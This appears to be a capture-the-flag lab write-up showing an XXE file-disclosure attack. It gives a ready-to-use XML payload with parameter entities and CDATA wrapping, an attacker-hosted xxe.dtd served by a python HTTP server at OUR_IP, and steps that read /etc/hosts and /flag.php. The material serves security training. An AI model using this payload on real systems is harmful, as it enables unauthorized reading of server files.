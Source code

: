 # Advanced File Disclosure

#### Use either method from this section to read the flag at '/flag.php'. (You may use the CDATA method at '/index.php', or the error-based method at '/error').



**Step 1** - Get the XML data

* Fill the form click on **Send Message**.

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Capture the POST Request and send it with Repeater

<figure><img src="../../../.gitbook/assets/image (4) (1) (1).png" alt=""><figcaption></figcaption></figure>

Like the last exercise, we can see the value of the tag `email`  being reflected on the Response. This time to extract the data, we'll wrap the content of the external file reference with a `CDATA` .

Since XML prevents joining internal and external entities, we have to come around with a solution. To bypass this limitation we can use `XML Parameter Entities`. This is a special type of entity that starts with `%` character and con only be used with DTD.

To do that lets create a file in our working environment call it **xxe.dtd**. File content:

```bash
<!ENTITY joined "%begin;%file;%end;">
```

Then in the same directory we start a python server:

```bash
python3 -m http.server 8000
```

Lets add our XML code and try to read a common file like the **etc/hosts**:

```xml
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> 
  <!ENTITY % file SYSTEM "file:///etc/hosts"> 
  <!ENTITY % end "]]>"> 
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd"> 
  %xxe;
]>
```

Make sure to add your machine IP, and add the **\&joined,** reference to the email tags.

<figure><img src="../../../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

As we can see, we retrieve the content of the **/etc/hosts** and we even got the logs on the attack machine.

Now, if you struggle to find the flag.php file, maybe it's because you were looking at the `var/www/html` directory. But the file is actually located at the root, so we have to reference it like this `file:///flag.php`

<figure><img src="../../../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>

And if we send the POST Request we are able to read the **flag.php** file and retrieve the flag!


